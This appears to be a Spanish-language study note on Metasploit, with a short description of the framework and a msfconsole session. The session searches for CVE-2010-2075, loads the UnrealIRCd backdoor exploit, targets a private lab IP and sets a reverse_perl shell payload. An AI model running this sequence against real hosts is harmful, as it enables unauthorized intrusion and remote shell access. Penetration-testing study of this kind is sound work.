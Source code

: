## Metasploit

- Exploits hechos en [[Ruby]].
- Herramienta automática, un framework para hacer la explotación de forma sencilla
- Tiene implementados un conjunto de exploits enorme para las vulnerabilidades que van saliendo.
- Entonces metasploit almacena un modulo y nos permite utilizarlo.
- Ademas, tiene herramientas auxiliares que nos permiten realizar toda la fase de lanzamiento del exploit contra un target, Manejo de la conexión que nos puede devolver ese target hacia nosotros.

La instalación en Windows se puede realizar pero seria muy difícil porque Windows defender se activaría para bloquearlo. 



$ sudo service nessusd start

Luego abrimos el navegador para acceder al reporte de vulnerabilidades

$ sudo msfdb init && msfconsole

msf6 > search cve:2010-2075
msf6 > use 0
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set rhosts 192.168.180.131
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > show options

*Ademas del exploit necesitamos un [[Payload]]*

msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > show payloads
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload 7
payload => cmd/unix/reverse_perl


#keywords
RHOSTS -> Remote Hosts. La ip de la maquina a atacar
RPORT -> Remote Port de la maquina que vamos a atacar.
URI -> Unique Resource Identifier 